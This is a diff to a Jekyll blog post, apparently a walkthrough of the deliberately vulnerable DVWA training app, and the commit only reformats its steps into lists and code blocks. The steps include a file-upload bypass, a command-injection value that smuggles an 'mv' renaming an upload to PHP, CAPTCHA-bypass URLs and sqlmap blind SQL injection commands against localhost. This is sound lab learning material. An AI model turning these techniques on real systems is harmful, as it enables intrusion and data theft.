

Before and after one commit to marselia/marselia.github.io, a Jekyll site: the page built from _posts/2020-05-09-DVWA2.md, in a window 1280 px wide and 1400 px high, scrolled down 909 px. Shown: the whole window at 91% size, without its empty margins (120-1161 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2020-05-09-DVWA2.md
+++ b/_posts/2020-05-09-DVWA2.md
@@ -44,9 +44,9 @@ You can encapsulate malicious code in inert file types.
 
 LOW - MEDIUM - HIGH:
 
-LOW: Upload a malicious file.
-MEDIUM: Send a POST Request with the malicious file and change the Content-Type to image/jpeg.
-HIGH: Change the malicious file extension to jpeg and change the file signature to jpeg signature with hexedit. Then, in the command injection section, write this: 127.0.0.1|mv ../../hackable/uploads/test.png ../../hackable/uploads/test.php
+- LOW: Upload a malicious file.
+- MEDIUM: Send a POST Request with the malicious file and change the Content-Type to image/jpeg.
+- HIGH: Change the malicious file extension to jpeg and change the file signature to jpeg signature with hexedit. Then, in the command injection section, write this: 127.0.0.1|mv ../../hackable/uploads/test.png ../../hackable/uploads/test.php
 
 ## Insecure Captcha
 
@@ -55,12 +55,17 @@ Captchas are generally used to prevent robots from performing an action instead
 LOW - MEDIUM - HIGH:
 
 LOW: Change the step=1 to step=2.
+```
 http://127.0.0.1/DVWA/vulnerabilities/captcha/?step=2&password_new=q&password_conf=q&Change=Change
+```
 MEDIUM: We need to change the passed_captcha to True.
+```
 http://127.0.0.1/DVWA/vulnerabilities/captcha/?step=2&password_new=q&password_conf=q&passed_captcha=true&Change=Change
+```
 HIGH: Change the User-Agent to reCAPTCHA.
+```
 http://127.0.0.1/DVWA/vulnerabilities/captcha/?step=1&password_new=123&password_conf=123&recaptcha_response_field=hidd3n_valu3&Change=Change
-
+```
 
 ## SQL injection blind
 
@@ -88,9 +93,9 @@ sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=3&Submit=Submit"
 ```
 
 HIGH:
-Referer: https://127.0.0.1/DVWA/vulnerabilities/sqli_blind/cookie-input.php
-Cookie: id=1%27; security=high; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n
-Data: id=1%27&Submit=Submit
+- Referer: https://127.0.0.1/DVWA/vulnerabilities/sqli_blind/cookie-input.php
+- Cookie: id=1%27; security=high; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n
+- Data: id=1%27&Submit=Submit
 ```
 sqlmap -u “http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1%27&Submit=Submit” --cookie=”security=high; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n” --dbs
 //and you have to follow the same steps as low level
````
